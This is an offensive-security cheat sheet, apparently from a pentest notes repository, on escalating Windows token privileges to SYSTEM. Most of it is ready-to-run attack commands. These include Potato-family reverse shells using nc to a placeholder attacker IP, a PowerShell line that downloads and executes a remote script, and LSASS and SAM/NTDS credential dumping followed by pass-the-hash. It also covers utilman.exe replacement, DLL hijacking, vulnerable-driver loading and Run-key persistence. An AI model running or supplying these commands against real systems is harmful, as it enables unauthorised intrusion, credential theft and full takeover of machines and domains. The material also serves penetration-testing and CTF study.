


## TL;DR

After getting a shell on a Windows target, run `whoami /priv` to list your token privileges. **Certain enabled privileges are direct paths to SYSTEM.** This guide covers every exploitable privilege, the tools to abuse them, and step-by-step exploitation.

**Quick reference — Exploitable Privileges:**

| Privilege | Impact | Primary Tool | Difficulty |
|---|---|---|---|
| `SeImpersonatePrivilege` | SYSTEM | Potato family | Easy |
| `SeAssignPrimaryTokenPrivilege` | SYSTEM | Potato family | Easy |
| `SeBackupPrivilege` | Read any file → SAM/SYSTEM dump | reg save / diskshadow | Medium |
| `SeRestorePrivilege` | Write any file → DLL hijack | robocopy / manual | Medium |
| `SeDebugPrivilege` | SYSTEM | procdump / migrate | Easy |
| `SeTakeOwnershipPrivilege` | Own any file/key → modify | takeown + icacls | Medium |
| `SeLoadDriverPrivilege` | Kernel code exec → SYSTEM | Capcom.sys | Hard |
| `SeManageVolumePrivilege` | Write any file → DLL hijack | Weaponized exploit | Medium |
| `SeShutdownPrivilege` | Force reboot → trigger planted payload | shutdown + DLL hijack | Medium (combo) |
| `SeMachineAccountPrivilege` | AD attack (add computer) | Impacket / PowerMAD | Context-dependent |

---

## Reading whoami /priv Output

```cmd
whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token              Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process         Disabled
SeShutdownPrivilege           Shut down the system                       Disabled
SeImpersonatePrivilege        Impersonate a client after authentication  Enabled
SeCreateGlobalPrivilege       Create global objects                      Enabled
```

### Key Concepts

- **Enabled**: Can be used immediately
- **Disabled**: Present but must be enabled programmatically first (most tools handle this automatically)
- A privilege being **listed at all** (even Disabled) means the account has it — tools like `EnableAllTokenPrivs.ps1` can enable disabled privileges

```powershell
# Enable all disabled privileges (if needed)
Import-Module .\EnableAllTokenPrivs.ps1
# Or use: https://github.com/fashionproof/EnableAllTokenPrivs
```

### Who Gets Which Privileges?

| Account / Context | Key Privileges |
|---|---|
| `NT AUTHORITY\NETWORK SERVICE` | `SeImpersonate`, `SeAssignPrimaryToken`, `SeChangeNotify` |
| `NT AUTHORITY\LOCAL SERVICE` | `SeImpersonate`, `SeAssignPrimaryToken`, `SeChangeNotify` |
| IIS AppPool (`IIS APPPOOL\DefaultAppPool`) | `SeImpersonate`, `SeAssignPrimaryToken` |
| MSSQL Service (`NT Service\MSSQLSERVER`) | `SeImpersonate`, `SeAssignPrimaryToken` |
| `NT AUTHORITY\SYSTEM` | All privileges |
| Local Administrators | `SeDebug`, `SeBackup`, `SeRestore`, `SeTakeOwnership`, `SeLoadDriver`, etc. |

---

## 1. SeImpersonatePrivilege → SYSTEM

**The most commonly exploited privilege.** Found on service accounts (IIS, MSSQL, etc.).

### How It Works

The `SeImpersonatePrivilege` allows a process to impersonate the security context of another process's token. The "Potato" family of exploits tricks a SYSTEM-level process into authenticating to a controlled named pipe, then impersonates that SYSTEM token to spawn a new process.

### Tool Comparison

| Tool | OS Support | Architecture | Named Pipe / Method | Notes |
|---|---|---|---|---|
| **JuicyPotato** | Win7, Win8, Server 2008/2012/2016 | x86, x64 | COM/DCOM CLSID abuse | **Does NOT work on Win10 1809+ / Server 2019+** |
| **PrintSpoofer** | Win10 all versions, Server 2016/2019/2022 | x64 | Spooler named pipe impersonation | Simple, reliable |
| **RoguePotato** | Win10 1803+, Server 2019+ | x64 | Rogue OXID Resolver | Requires attacker-controlled machine for OXID |
| **SweetPotato** | Win7 – Win11, Server 2008 – 2022 | x86, x64 | Multiple (auto-selects) | Combines multiple techniques |
| **GodPotato** | Win8 – Win11, Server 2012 – 2022 | x64 | DCOM RPCSS abuse | Very reliable on modern Windows |
| **SharpEfsPotato** | Win10+, Server 2016+ | x64 | EfsRpc named pipe | Good alternative |
| **EfsPotato** | Win10+, Server 2016+ | x64 | EFS + named pipe | Compiled C |
| **CoercedPotato** | Win10+, Server 2019+ | x64 | Multiple coercion methods | Latest technique |

### JuicyPotato (Win7 / Win8 / Server 2008-2016)

```cmd
:: Basic usage — spawn SYSTEM cmd
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}

:: Execute reverse shell as SYSTEM
JuicyPotato.exe -l 1337 -p C:\Temp\nc.exe -a "<KALI_IP> 4444 -e cmd.exe" -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}

:: Execute custom payload
JuicyPotato.exe -l 1337 -p C:\Temp\shell.exe -t *
```

> **CLSID note:** Different OS versions require different CLSIDs. Find valid ones at:
> [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

**Common CLSIDs:**

| OS | CLSID |
|---|---|
| Windows 7 | `{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}` |
| Windows 8 | `{C49E32C6-BC8B-11d2-85D4-00105A1F8304}` |
| Server 2012 | `{8BC3F05E-D86B-11D0-A075-00C04FB68820}` |
| Server 2016 | `{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}` |

### PrintSpoofer (Win10 / Server 2016-2022)

```cmd
:: Spawn interactive SYSTEM shell
PrintSpoofer64.exe -i -c cmd.exe

:: Execute reverse shell as SYSTEM
PrintSpoofer64.exe -c "C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe"

:: Execute PowerShell as SYSTEM
PrintSpoofer64.exe -i -c powershell.exe
```

### GodPotato (Win8 – Win11 / Server 2012-2022)

```cmd
:: Execute command as SYSTEM
GodPotato.exe -cmd "cmd /c whoami"

:: Reverse shell
GodPotato.exe -cmd "C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe"

:: PowerShell reverse shell
GodPotato.exe -cmd "powershell -nop -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

### SweetPotato (Broadest Compatibility)

```cmd
:: Auto-select best technique
SweetPotato.exe -e EfsRpc -p C:\Temp\nc.exe -a "<KALI_IP> 4444 -e cmd.exe"

:: Specify technique
SweetPotato.exe -e WinRM -p C:\Windows\System32\cmd.exe -a "/c C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe"
```

### RoguePotato (Win10 1803+ / Server 2019+)

```bash
# Attacker: start OXID resolver redirect (on port 135)
socat tcp-listen:135,reuseaddr,fork tcp:<TARGET_IP>:9999
```

```cmd
:: Target: execute
RoguePotato.exe -r <KALI_IP> -l 9999 -e "C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe"
```

### Decision — Which Potato?



---

## 2. SeAssignPrimaryTokenPrivilege → SYSTEM

Often paired with `SeImpersonatePrivilege`. Allows assigning an alternate token to a child process.

**Exploitation: Same as SeImpersonatePrivilege** — all Potato family tools work.

```cmd
:: Same tools apply
JuicyPotato.exe -l 1337 -p C:\Temp\shell.exe -t * -c {CLSID}
PrintSpoofer64.exe -i -c cmd.exe
GodPotato.exe -cmd "cmd /c whoami"
```

---

## 3. SeDebugPrivilege → SYSTEM

**Allows debugging any process, including SYSTEM processes.** Common for local administrators.

### Method 1: Migrate into a SYSTEM Process (Meterpreter)

```
meterpreter> ps
meterpreter> migrate <WINLOGON_PID>
meterpreter> getuid
# NT AUTHORITY\SYSTEM
```

### Method 2: Dump LSASS (Credential Extraction)

```cmd
:: procdump (Sysinternals — signed by Microsoft, less likely to be flagged)
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

:: Task Manager: right-click lsass.exe → Create dump file

:: comsvcs.dll MiniDump (built-in, no tools needed)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Temp\lsass.dmp full
```

```bash
# On attacker: parse with mimikatz or pypykatz
pypykatz lsa minidump lsass.dmp
```

### Method 3: Direct Token Stealing with PowerShell

```powershell
# psgetsys.ps1 — spawn SYSTEM shell by copying winlogon token
# https://github.com/decoder-it/psgetsystem
Import-Module .\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(<SYSTEM_PID>, "C:\Windows\System32\cmd.exe", "")
```

### Method 4: Process Injection

```cmd
:: Use msfvenom shellcode + custom injector
:: Inject into a SYSTEM process (e.g., winlogon.exe, lsass.exe)

:: Find SYSTEM processes
tasklist /FI "USERNAME eq NT AUTHORITY\SYSTEM"
```

### Tools for SeDebugPrivilege

| Tool | Method | Notes |
|---|---|---|
| **Meterpreter `migrate`** | Process migration | Easiest, requires Meterpreter session |
| **procdump64.exe** | LSASS dump | Microsoft-signed, less detection |
| **comsvcs.dll** | LSASS dump | Built-in, no upload needed |
| **pypykatz** | Parse LSASS offline | Python, attacker-side |
| **mimikatz** | Direct credential extraction | `privilege::debug` then `sekurlsa::logonpasswords` |
| **psgetsystem** | Token copying | PowerShell, create process as SYSTEM |

---

## 4. SeBackupPrivilege → Read Any File → SYSTEM

**Allows reading any file on the system**, bypassing DACL/ACL. Use to extract SAM/SYSTEM registry hives or sensitive files.

### Method 1: Registry Hive Dump (SAM + SYSTEM + SECURITY)

```cmd
:: Dump registry hives
reg save HKLM\SAM C:\Temp\SAM
reg save HKLM\SYSTEM C:\Temp\SYSTEM
reg save HKLM\SECURITY C:\Temp\SECURITY
```

```bash
# On attacker: extract hashes
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL

# Crack or pass the hash
crackmapexec smb <TARGET_IP> -u Administrator -H <NTLM_HASH>
impacket-psexec Administrator@<TARGET_IP> -hashes :<NTLM_HASH>
```

### Method 2: Copy Protected Files (robocopy /B)

```cmd
:: /B flag = backup mode (uses SeBackupPrivilege)
robocopy /B C:\Users\Administrator\Desktop C:\Temp\ flag.txt

:: Copy ntds.dit from Domain Controller
robocopy /B C:\Windows\NTDS C:\Temp\ ntds.dit
```

### Method 3: DiskShadow + robocopy (Domain Controller — ntds.dit)

```cmd
:: Create shadow copy script
echo set context persistent nowriters > C:\Temp\shadow.txt
echo add volume C: alias mydrive >> C:\Temp\shadow.txt
echo create >> C:\Temp\shadow.txt
echo expose %mydrive% Z: >> C:\Temp\shadow.txt
echo exec >> C:\Temp\shadow.txt

:: Execute
diskshadow /s C:\Temp\shadow.txt

:: Copy ntds.dit from shadow copy
robocopy /B Z:\Windows\NTDS C:\Temp\ ntds.dit

:: Also need SYSTEM hive
reg save HKLM\SYSTEM C:\Temp\SYSTEM
```

```bash
# On attacker: extract all domain hashes
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

### Method 4: BackupOperatorToDA (Automated)

```powershell
# https://github.com/mpgn/BackupOperatorToDA
Import-Module .\BackupOperatorToDA.ps1
Invoke-BackupOperatorToDA -TargetDC dc01.domain.local -OutputPath C:\Temp\
```

### Tools for SeBackupPrivilege

| Tool | Purpose | Notes |
|---|---|---|
| **reg save** | Dump SAM/SYSTEM/SECURITY hives | Built-in |
| **robocopy /B** | Copy any file bypassing ACLs | Built-in |
| **diskshadow** | Volume Shadow Copy (ntds.dit) | Built-in, Server OS only |
| **impacket-secretsdump** | Extract hashes from dumps | Attacker-side |
| **BackupOperatorToDA** | Automated DC extraction | PowerShell |
| **wbadmin** | Windows Backup utility | Built-in |

---

## 5. SeRestorePrivilege → Write Any File → SYSTEM

Grants **write access to any file on the system, regardless of the file's ACL**. This opens up numerous possibilities for escalation, including the ability to **modify services**, perform **DLL Hijacking**, and set **debuggers** via Image File Execution Options.

> **References:** [Priv2Admin — SeRestorePrivilege](https://github.com/gtworek/Priv2Admin), [PrivFu PoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeRestorePrivilegePoC)

### Method 1: Replace utilman.exe (HackTricks Recommended)

```powershell
# 1. Launch PowerShell/ISE with SeRestore privilege present
# 2. Enable the privilege
# https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1
Import-Module .\EnableSeRestorePrivilege.ps1
Enable-SeRestorePrivilege

# 3. Replace utilman.exe with cmd.exe
Rename-Item C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
Rename-Item C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe

# 4. Lock the console and press Win+U → SYSTEM shell
```

> **Note:** This attack may be detected by some AV software.

### Method 2: Replace Service Binaries

```cmd
:: Alternative approach — replace service binaries stored in "Program Files"

:: 1. Find a service running as SYSTEM with a replaceable binary
sc query state= all
sc qc <SERVICE_NAME>

:: 2. Replace the service binary with a malicious payload
copy /Y C:\Temp\malicious.exe "C:\Program Files\VulnService\service.exe"

:: 3. Restart the service
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

### Method 3: Image File Execution Options (Debugger)

```cmd
:: SeRestorePrivilege allows writing to protected registry keys
:: Set a debugger to execute an arbitrary payload when the target program launches
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "C:\Temp\shell.exe" /f

:: At lock screen: Win+U → shell.exe runs as SYSTEM
```

### Method 4: DLL Hijacking

```cmd
:: Overwrite a DLL loaded by a SYSTEM service with a malicious one
copy /Y C:\Temp\malicious.dll "C:\Program Files\VulnService\missing.dll"

:: Restart the service to load the DLL
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

### Method 5: Registry Key Modification

```powershell
# SeRestorePrivilege allows writing to protected registry keys
# Modify service ImagePath to point to malicious binary
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\shell.exe" /f
```

---

## 6. SeTakeOwnershipPrivilege → Own Any Object → SYSTEM

**Allows taking ownership of any securable object** (files, registry keys, AD objects).

### Method 1: Take Ownership of System Files

```cmd
:: Take ownership of a protected file
takeown /F "C:\Windows\System32\config\SAM"

:: Grant yourself full control
icacls "C:\Windows\System32\config\SAM" /grant <USERNAME>:F

:: Now read the file
copy "C:\Windows\System32\config\SAM" C:\Temp\SAM
```

### Method 2: Take Ownership of Service Registry Key

```cmd
:: 1. Find a service running as SYSTEM
sc qc <SERVICE_NAME>

:: 2. Take ownership of its registry key
takeown /F "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /R

:: Or via PowerShell
$key = [Microsoft.Win32.Registry]::LocalMachine.OpenSubKey("SYSTEM\CurrentControlSet\Services\<SERVICE>", 'ReadWriteSubTree', 'TakeOwnership')
$acl = $key.GetAccessControl()
$acl.SetOwner([System.Security.Principal.NTAccount]"<DOMAIN\USER>")
$key.SetAccessControl($acl)

:: 3. Modify ImagePath
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\shell.exe" /f

:: 4. Restart service
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

### Method 3: Take Ownership of Sensitive Files

```cmd
:: Flag/credential files
takeown /F "C:\Users\Administrator\Desktop\flag.txt"
icacls "C:\Users\Administrator\Desktop\flag.txt" /grant <USERNAME>:F
type "C:\Users\Administrator\Desktop\flag.txt"
```

---

## 7. SeLoadDriverPrivilege → Kernel Code Execution → SYSTEM

**Allows loading kernel drivers.** Load a vulnerable signed driver, then exploit it for kernel-level code execution.

### Method: Capcom.sys Exploit

```
1. Upload Capcom.sys (vulnerable signed driver)
2. Load driver via registry + NtLoadDriver
3. Execute kernel shellcode via Capcom's IOCTLs
4. Spawn SYSTEM shell
```

**Using EoPLoadDriver + ExploitCapcom:**

```cmd
:: 1. Load Capcom.sys driver
EoPLoadDriver.exe System\CurrentControlSet\MyDriver C:\Temp\Capcom.sys

:: 2. Exploit to get SYSTEM
ExploitCapcom.exe
```

**PowerShell automation:**

```powershell
# Load driver via registry
New-ItemProperty -Path "HKCU:\System\CurrentControlSet\MyDriver" -Name "ImagePath" -Value "\??\C:\Temp\Capcom.sys"
New-ItemProperty -Path "HKCU:\System\CurrentControlSet\MyDriver" -Name "Type" -Value 1

# Trigger NtLoadDriver
# (Requires custom tool or compiled exploit)
```

### Tools for SeLoadDriverPrivilege

| Tool | Purpose |
|---|---|
| **EoPLoadDriver** | Load arbitrary kernel driver |
| **ExploitCapcom** | Exploit Capcom.sys for code execution |
| **Capcom.sys** | Vulnerable signed driver |
| **NtLoadDriver API** | Direct API call to load driver |

> **Warning:** This technique requires uploading a vulnerable driver. Modern Windows with HVCI (Hypervisor-protected Code Integrity) may block loading vulnerable drivers.

---

## 8. SeManageVolumePrivilege → Write Any File → SYSTEM

**Allows managing volumes**, which can be abused to gain write access to any file on the filesystem.

### Method: Weaponized DLL Write

```cmd
:: Use the privilege to overwrite a DLL loaded by a SYSTEM service
:: https://github.com/CsEnox/SeManageVolumeExploit

:: 1. Run exploit to gain write access
SeManageVolumeExploit.exe

:: 2. Now overwrite a DLL (e.g., in C:\Windows\System32\)
:: Copy malicious DLL over a legitimate one loaded by a SYSTEM service
copy /Y C:\Temp\malicious.dll C:\Windows\System32\wbem\tzres.dll

:: 3. Trigger the service that loads the DLL
systeminfo
:: (systeminfo loads tzres.dll → executes payload as SYSTEM)
```

### Tools for SeManageVolumePrivilege

| Tool | Purpose |
|---|---|
| **SeManageVolumeExploit** | Grant write access to C:\ |
| Custom DLL | Payload to be loaded by SYSTEM service |

---

## 9. Other Useful Privileges

### SeCreateTokenPrivilege

**Create arbitrary tokens.** Extremely rare outside of LSA.

```
Allows creating tokens with any privileges/groups.
Typically only held by LSASS — exploitation is theoretical.
```

### SeChangeNotifyPrivilege

**Bypass traverse checking.** Almost all accounts have this — not directly exploitable but means directory traversal is not restricted.

### SeIncreaseWorkingSetPrivilege

**Not directly exploitable** for privilege escalation.

### SeTimeZonePrivilege / SeSystemTimePrivilege

**Not directly exploitable** but can be used to disrupt logging/timestamps.

### SeShutdownPrivilege → Force Reboot → Trigger Planted Payload → SYSTEM

**Not exploitable alone**, but becomes a privilege escalation primitive when combined with a write capability. The key insight: normal users cannot reboot the system, so `SeShutdownPrivilege` lets you **trigger your own planted payloads** on demand.

#### Combination Attack Matrix

| Write Primitive Available | Attack Chain | Result |
|---|---|---|
| Writable path in SYSTEM service's DLL search order | Plant malicious DLL → `shutdown /r` → Service loads DLL on boot | SYSTEM |
| Unquoted service path exists | Plant binary in gap → `shutdown /r` → Service executes wrong binary | SYSTEM |
| Registry write access (HKLM Run / Service keys) | Add Run key or modify service ImagePath → `shutdown /r` | SYSTEM |
| `MoveFileEx` API available | PendingFileRenameOperations → `shutdown /r` → File overwritten on boot | SYSTEM |
| Scheduled task creation rights | Create boot-triggered task → `shutdown /r` | SYSTEM |
| Any file write + DLL hijack target identified | Plant DLL → `shutdown /r` → SYSTEM service loads DLL | SYSTEM |

#### Method 1: DLL Hijacking + Forced Reboot

```cmd
:: 1. Identify a DLL hijack opportunity (missing DLL in SYSTEM service)
:: Use Process Monitor or known DLL hijack lists

:: 2. Plant malicious DLL
copy C:\Temp\malicious.dll "C:\Program Files\VulnApp\missing.dll"

:: 3. Force reboot with SeShutdownPrivilege
shutdown /r /t 0 /f
:: Service starts on boot → loads malicious DLL → SYSTEM shell
```

#### Method 2: Unquoted Service Path + Forced Reboot

```cmd
:: 1. Find unquoted service paths
wmic service get name,pathname,startmode | findstr /i "auto" | findstr /v /i "C:\Windows\\" | findstr /i /v """

:: Example result: C:\Program Files\Vuln App\service.exe
:: Windows will try: C:\Program.exe → C:\Program Files\Vuln.exe → ...

:: 2. Plant binary in the gap
copy C:\Temp\shell.exe "C:\Program Files\Vuln.exe"

:: 3. Force reboot
shutdown /r /t 0 /f
:: Auto-start service executes C:\Program Files\Vuln.exe as SYSTEM
```

#### Method 3: PendingFileRenameOperations + Forced Reboot

```cmd
:: Replace utilman.exe with cmd.exe on next reboot (Sticky Keys variant)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v PendingFileRenameOperations /t REG_MULTI_SZ /d "\??\C:\Windows\System32\cmd.exe\0\??\C:\Windows\System32\utilman.exe" /f

:: Force reboot
shutdown /r /t 0 /f

:: At lock screen: Win+U → SYSTEM cmd.exe
```

> **Note:** Writing to `PendingFileRenameOperations` requires write access to the `Session Manager` registry key, which is typically restricted. This method works when combined with `SeRestorePrivilege` or `SeTakeOwnershipPrivilege`.

#### Method 4: Registry Run Key + Forced Reboot

```cmd
:: If you have write access to HKLM Run keys
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\Temp\shell.exe" /f

:: Force reboot — payload executes on next login
shutdown /r /t 0 /f
```

#### Shutdown Commands Reference

```cmd
:: Immediate reboot (force close applications)
shutdown /r /t 0 /f

:: Immediate shutdown
shutdown /s /t 0 /f

:: Delayed reboot (30 seconds)
shutdown /r /t 30

:: Cancel pending shutdown
shutdown /a

:: PowerShell equivalent
Restart-Computer -Force
Stop-Computer -Force
```

#### Why This Matters

```
SeShutdownPrivilege alone    → Cannot escalate (just reboot)
Write primitive alone        → Payload planted but no trigger (must wait for admin reboot)
SeShutdownPrivilege + Write  → Plant payload AND trigger it yourself = full escalation
```

Normal users cannot force a reboot, so they must wait for an administrator or scheduled maintenance to restart the system. With `SeShutdownPrivilege`, you control the timing — plant your payload and immediately trigger it.

---

## Complete Exploitation Workflow



---

## Tools Download Reference

| Tool | URL | Use Case |
|---|---|---|
| JuicyPotato | [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato) | SeImpersonate (legacy OS) |
| PrintSpoofer | [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer) | SeImpersonate (Win10+) |
| GodPotato | [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato) | SeImpersonate (broad support) |
| SweetPotato | [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato) | SeImpersonate (auto-select) |
| RoguePotato | [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato) | SeImpersonate (Server 2019+) |
| SharpEfsPotato | [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato) | SeImpersonate (EFS method) |
| CoercedPotato | [https://github.com/Prepouce/CoercedPotato](https://github.com/Prepouce/CoercedPotato) | SeImpersonate (latest) |
| procdump | [https://learn.microsoft.com/en-us/sysinternals/downloads/procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) | SeDebug (LSASS dump) |
| pypykatz | [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz) | LSASS dump parser |
| mimikatz | [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) | Credential extraction |
| psgetsystem | [https://github.com/decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem) | SeDebug (token steal) |
| EoPLoadDriver | [https://github.com/TarlogicSecurity/EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver) | SeLoadDriver |
| ExploitCapcom | [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) | SeLoadDriver (Capcom) |
| SeManageVolumeExploit | [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit) | SeManageVolume |
| BackupOperatorToDA | [https://github.com/mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) | SeBackup (AD) |
| EnableAllTokenPrivs | [https://github.com/fashionproof/EnableAllTokenPrivs](https://github.com/fashionproof/EnableAllTokenPrivs) | Enable disabled privs |
| Impacket | [https://github.com/fortra/impacket](https://github.com/fortra/impacket) | Hash extraction / PtH |

---

## References

- PayloadsAllTheThings — Windows Privesc: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- HackTricks — Windows Token Privileges: [https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)
- MITRE ATT&CK T1134 — Access Token Manipulation: [https://attack.mitre.org/techniques/T1134/](https://attack.mitre.org/techniques/T1134/)
- itm4n's PrintSpoofer blog: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- FoxGlove Security — Hot Potato: [https://foxglovesecurity.com/2016/01/16/hot-potato/](https://foxglovesecurity.com/2016/01/16/hot-potato/)
